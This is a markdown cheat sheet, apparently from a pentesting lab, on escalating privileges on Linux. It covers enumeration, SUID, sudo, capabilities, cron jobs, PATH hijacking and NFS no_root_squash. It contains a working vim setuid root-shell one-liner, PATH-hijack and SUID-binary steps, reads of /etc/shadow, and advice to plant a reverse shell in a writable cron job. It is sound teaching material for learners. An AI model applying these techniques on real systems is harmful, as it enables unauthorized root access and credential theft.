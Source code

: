 ## Linux Privilege Escalation:
- By [Sai Sathvik](https://linktr.ee/saisathvikruppa)
- In order to understand what a particular Linux command does, use: https://www.explainshell.com/
- Important Resource: https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/
- Privilege escalation is the technique used to escalate our privileges from lower user to higher user(interms of privileges)
- Once we obtain the higher level privilege on the system then we can do a lot of things on that system

---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`
14. **find** command which helps us in finding lot of stuff,
	- Syntax: `find <path> <options> <regex/name>`
	find . -name flag1.txt: find the file named “flag1.txt” in the current directory
	- `find /home -name flag1.txt` : find the file names “flag1.txt” in the /home directory
	- `find / -type d -name config` : find the directory named config under “/”
	- `find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
	- `find / -perm a=x` : find executable files
	- `find /home -user frank` : find all files for user “frank” under “/home”
	- `find / -mtime 10` : find files that were modified in the last 10 days
	- `find / -atime 10` : find files that were accessed in the last 10 day
	- `find / -cmin -60` : find files changed within the last hour (60 minutes)
	- `find / -amin -60` : find files accesses within the last hour (60 minutes)
	- `find / -size 50M` : find files with a 50 MB size
	- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -222 -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o w -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
	- We can also find programming languages and supported languages: `find / -name perl*`, `find / -name python*`, `find / -name gcc*` ...etc
	- `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
15. We can even make use of "grep", "locate", "sort"...etc

----------------
### Automated Enumeration Scripts:
- In real life we dont get much time to do enumeration so we can make use of some cool automated scripts like follows,
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

-------------------
### Linux Kernel Exploits:
- After finding the version of Kernel simple google for that exploit or you can also use "Linux Exploit suggester"
- Once you find the exploit for the privesc, transfer the payload from your machine to target machine and execute and you're good to go.
- In an example I worked out with **overlayfs** exploit and got higher privileges

------------------
### Sudo:
- This one of the first step to do, when you get access to the machine just simpley run "sudo -l", which lists all the files that we can run as root without any password
- Once you have any to run then navigate to https://gtfobins.github.io/ and search for is the one specified is a system program or else modify the file with "/bin/sh" and run that
- GTFO bins is going to be saviour!

----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
- `find / -perm -u=s -type f 2>/dev/null` this will list all the suid files
- Then later search in GTFObins and look for the way to bypass
- Only googling works here, for example we can simply use /etc/shadow and /etc/passwd to find the user passwords

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

---------------------------

## Thank you!!
